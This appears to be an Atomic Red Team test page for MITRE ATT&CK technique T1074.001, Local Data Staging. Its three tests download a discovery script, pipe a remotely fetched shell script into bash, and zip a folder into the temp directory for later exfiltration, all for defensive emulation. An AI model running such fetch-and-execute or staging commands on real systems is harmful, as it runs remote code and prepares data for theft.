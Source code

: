# T1074.001 - Local Data Staging
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1074/001)
<blockquote>Adversaries may stage collected data in a central location or directory on the local system prior to Exfiltration. Data may be kept in separate files or combined into one file through techniques such as [Archive Collected Data](https://attack.mitre.org/techniques/T1560). Interactive command shells may be used, and common functionality within [cmd](https://attack.mitre.org/software/S0106) and bash may be used to copy data into a staging location.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Stage data from Discovery.bat](#atomic-test-1---stage-data-from-discoverybat)

- [Atomic Test #2 - Stage data from Discovery.sh](#atomic-test-2---stage-data-from-discoverysh)

- [Atomic Test #3 - Zip a Folder with PowerShell for Staging in Temp](#atomic-test-3---zip-a-folder-with-powershell-for-staging-in-temp)


<br/>

## Atomic Test #1 - Stage data from Discovery.bat
Utilize powershell to download discovery.bat and save to a local file. This emulates an attacker downloading data collection tools onto the host. Upon execution,
verify that the file is saved in the temp directory.

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| output_file | Location to save downloaded discovery.bat file | Path | $env:TEMP&#92;discovery.bat|


#### Attack Commands: Run with `powershell`! 


```powershell
Invoke-WebRequest "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1074.001/src/Discovery.bat" -OutFile #{output_file}
```

#### Cleanup Commands:
```powershell
Remove-Item -Force #{output_file} -ErrorAction Ignore
```





<br/>
<br/>

## Atomic Test #2 - Stage data from Discovery.sh
Utilize curl to download discovery.sh and execute a basic information gathering shell script

**Supported Platforms:** Linux, macOS




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| output_file | Location to save downloaded discovery.bat file | Path | /tmp/T1074.001_discovery.log|


#### Attack Commands: Run with `bash`! 


```bash
curl -s https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1074.001/src/Discovery.sh | bash -s > #{output_file}
```






<br/>
<br/>

## Atomic Test #3 - Zip a Folder with PowerShell for Staging in Temp
Use living off the land tools to zip a file and stage it in the Windows temporary folder for later exfiltration. Upon execution, Verify that a zipped folder named Folder_to_zip.zip
was placed in the temp directory.

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| output_file | Location to save zipped file or folder | Path | $env:TEMP&#92;Folder_to_zip.zip|
| input_file | Location of file or folder to zip | Path | PathToAtomicsFolder&#92;T1074.001&#92;bin&#92;Folder_to_zip|


#### Attack Commands: Run with `powershell`! 


```powershell
Compress-Archive -Path #{input_file} -DestinationPath #{output_file} -Force
```

#### Cleanup Commands:
```powershell
Remove-Item -Path #{output_file} -ErrorAction Ignore
```





<br/>
